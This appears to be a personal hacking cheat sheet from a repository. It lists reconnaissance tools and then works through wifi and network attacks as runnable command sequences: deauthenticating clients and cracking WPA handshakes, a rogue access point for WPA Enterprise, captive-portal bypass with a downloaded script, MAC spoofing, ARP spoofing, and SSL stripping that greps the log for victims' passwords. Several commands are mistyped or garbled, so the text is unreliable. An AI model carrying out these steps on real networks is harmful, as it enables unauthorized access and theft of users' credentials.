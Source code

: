 1. Whoami provides enhanced privacy, anonymity for Debian and Arch based linux distributions -- [text](https://github.com/owerdogan/whoami-project.git)
2. kalitorify
3. namp - to get all info of domain
4. whois --help use
5. recon-ng - usethis tool to get info
6. Netcraft - phishing protection tool
7. Maltigo - to gather information
8. Advanced Google Search
9. https://angryip.org/ - Use this and Scan Network
10. Nmap Use and scan all network
11. https://research.domaintools.com/ Using this find Domain info
12. http://web.archive.org/ This is Internet Archive and in this there is wayback machine use it .
13. use tools finger , enum4linux and much more to gather info
14. Google Advanced Search
15. Nmap Used to Scan (namp -sC <IP> , nmap --script http-headers <IP>, nmap --script default,broadcast <IP>, nmap --script "ssh-\*" <IP>, nmap --script banner <IP>, namp --script dns-brute <IP>)
16. nslookup(nslookup > set Type=NS Google.com), dig(dig google.com AAAA/NS)
17. SMB Enumuration vulneribility
18. Reconnaissance : Multigo Use Properly
19. Other Reconnaissance Tech : find info through social media or E-mail etc
20. Make userfriendly wit multigo tool
21. Information Gathering Tool - dmitry -h > IMP
22. WEP encryption
23. CISCO Packet tracker use to semulate all process .
24. Convert wifi in monitor mode > ifconfig wlan0 down > iwconfig wlan0 mode monitor > ifconfig wlan0 up
25. WIFI tools > airodump-ng wlan0 > airodump-ng --bssid <bssid> --channel <CH> --write test --upc wlan0 || aireplay-ng --deauth 4 -a <bssid> -c <client bssid> wlan0 ||Handshake captured > aircrack-ng -w /path/to/wordlist.txt web-01.cap || Hidden Network will be find by disconnecting clients of hidden network you will get wifi Name. || aircrack-ng web-01.cap (to decript passkeyonly for WPA)
26. MAC Changer > ifconfig wlan0 down > ifconfig wlan0 hw ether 00:11:22:33:44:55 > ifconfig wlan0 up
27. cracking WPA/WPA2 Enterprise > apt-gwt install libnl-3-dev > apt-get install libssl-dev > apt-get install hostapd-wpe > nano /etc/hostapd-wpe/hostapd-wpe.conf > airmon-ng check kill > hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf > cat /usr/share/wordlists/rockyou.txt | asleap -c <challenge> -R <Response> -W-
28. Ganing Access to Captive Portals > sudo apt-y install sipcalc nmap || wget https://raw.githubusercontent.com/systematicat/hack-captive-portals/master/hack-captive.sh > sudo chmod u+x hack-captive.sh > sudo chmod u+x hack-captive.sh > sudo ./hack-captive.sh > • Captive Portal Signal Available to Other Devices > Install additional packages: sudo apt install wpasupplicant > sudo apt install haveged hostapd git util-linux procps iproute2 iw dnsmasq iptables > git clone https://github.com/oblique/create_ap > cd create_ap > sudo make install > cd .. && rm -rf create_ap > • Stop Network Manager: sudo systemctl stop NetworkManager > sudo airmon-ng check kill • Captive Portal Signal Available to Other Devices > sudo ip link set eth0 down > gedit wpa_sup.conf > sudo wpa_supplicant -i wlan0 -c wpa_sup.conf > wlan0: CTRL-EVENT-CONNECTED - Connection to 88:dc:96:55:19:e4 completed [id=0 id_str=] > sudo dhclient wlan0 > sudo ./hack-captive.sh > iw dev > sudo create_ap wlanl wlane HackWare MiAlrules > • Captive Portal Signal Available to Other Devices > wlan0: AP-ENABLED > sudo create_ap > sudo create_ap wlan1 wlan0 KaliTut Qi*54s/n5 > sudo create_ap --ieee80211n wlan1 wlan0 KaliTut Qi*54s
29. Bypass Captive Protocals > Theft of MAC and IP addresses > traceroute suip.biz > • Captive Portal Using UDP > • Run the dig command several times for different hosts, for example, to get the IP host: > dig @8.8.8.8 ya.ru +short > • To get the google.com host IP: dig @8.8.8.8 google.com +short > • Theft of Credentials of Legitimate Users > • Stop the Network Manager and kill processes > sudo systemctl stop NetworkManager > sudo airmon-ng check kill > • Putting the card into monitor mode > sudo ip link set wlano down > sudo iw wlan0 set monitor control > sudo ip link set wlano up > Run airodump-ng > sudo airodump-ng wlan0 > sudo airodump-ng --channel 10 > -w /root/cap wlan0 > Use Wireshark to get username and pass from cap-01.cap file
30. ARP Spoofing > Use Ettercap tool > User ARP Spoofing > Capture the Traffic in Wireshark and get username and pass from it .
31. SSL Attack with MITM > • 192.168.1.2 >> Victim Computer (Windows 7) > • 192.168.1.1 >> Gateway Address > • 192.168.1.3 >> Attacker Computer (Kali Linux) > echo "1" > /proc/sys/net/ipv4/ip_forward > iptables -t nat -A PREROUTING -p tcp -dport -dport 80 -j REDIRECT -to-port 8080 > python sslstrip.py -1 8080-w/root/Masaustu/ssllog.log > arpspoof -i eth0 -t 192.168.1.2 -r 192.168.1.1 > cat ssllog.log | grep pass